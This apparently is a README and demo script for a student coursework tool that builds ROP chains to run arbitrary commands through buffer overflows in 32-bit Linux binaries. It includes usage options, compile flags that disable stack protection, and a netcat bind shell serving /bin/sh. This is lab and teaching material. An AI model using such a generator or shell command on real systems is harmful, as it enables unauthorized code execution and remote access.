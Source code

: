 This tool can be used for generating ROP chains of arbitrary command lines
Works on x86-32 bit programs with a buffer overflow vulnerability, such as the C strcpy function
Tool can be obtained from the git repo 

FOR THE PURPOSE OF THE TUTORIAL, WE'LL BE USING THE PROVIDED VAGRANTFILE, WHICH RUNS A x86-64 LINUX SYSTEM (tool has not been tested on other systems)

To log into the VM, run:

    vagrant up
    vagrant ssh

The tool and example files can be obtained by cloning https://github.com/navratilj/sss-cw.git

Requirements before using the tool:

    - python3
    - python3-pip
    - gdb
    - gcc-multilib
    - capstone
    - ROPgadget (https://github.com/JonathanSalwan/ROPgadget)

On Linux systems, these can be installed by running:

    sudo apt-get update -y
    sudo apt install -y python3-pip gdb gcc-multilib
    sudo pip3 install capstone
    sudo -H python3 -m pip install ROPgadget

The provided Vagrantfile should automatically install them. If not, run:

    vagrant provision


TOOL USAGE
-------------------------------------------------------------------------

The tool is the "autorun.py" script

To see usage, run:

    python3 autorun.py -h

This will display the tool options and necessary arguments to run
Two arguments are non-optional:

    -b/-bin/--binary --> Path to the vulnerable binary

    -e/-exe/--execute --> Command line you wish to execute.
                          If it contains spaces, make sure to enclose it in ' ' or " "

With no other arguments provided, the tool will produce a ROP chain and put the output into "rop-output". To change the name of the output file, use the -o OUTPUT argument

The -a option automatically runs the produced ROP chain in the binary

The -d DATA_ADDR allows you to set your own .data address

The -g GDB_RUN argument allows you to change the file that gdb will test padding on. This is used for files that have a hard coded name of the file they try to copy from

The -p option skips the gdb step and only produces the ROP chain without padding. Use for files that don't have a simple ./<bin> <file_name> structure

The -badbytes BADBYTES argument enables you to not find gadgets with addresses that contain the badbytes


SHOWCASE EXAMPLE
-------------------------------------------------------------------------
 
Run tmux, on the right side have README open

Log in to the vagrant machine

Clone https://github.com/navratilj/sss-cw.git to obtain autorun.py and lab 3 and 4 files

Compile files using: gcc -fno-stack-protector -m32 -static <file.c> -o <bin> (static for easier finding of gadgets, no protector because tool can't bypass stack canaries)

Show ASLR is on: cat /proc/sys/kernel/randomize_va_space (2 == on)

Show NX is enabled: rabin2 -I <file>

Show usage: python3 autorun.py -h

Run and example command(/bin/sh, ls, ls -a -l, python...) without -a, then run ./<bin> <output>

Run with the -a option to run automatically

Change size of buffer in an example file to show that it works with different buffer size

Run readelf -S <file> to show writeable memory spaces 
Use -d to change to and address that contains a null byte, and explain how it works, but how you would change it if you had more time

Show the -badbytes option to find different gadgets (example: d5, 90, 61)
RUN WITH ROPGADGET TO SHOW THE NEW GADGETS (show the bug in ROP gadget)

Show it works with nc:

    untar 
    ./configure
    make
    cp src/netcat /tmp/nc
    mkdir left_window right_window
    left --> /tmp/nc -lnp 5678 -tte /bin/sh
    right --> /tmp/nc 127.0.0.1 5678
              pwd 

Maybe some more commands

That's all, thank you!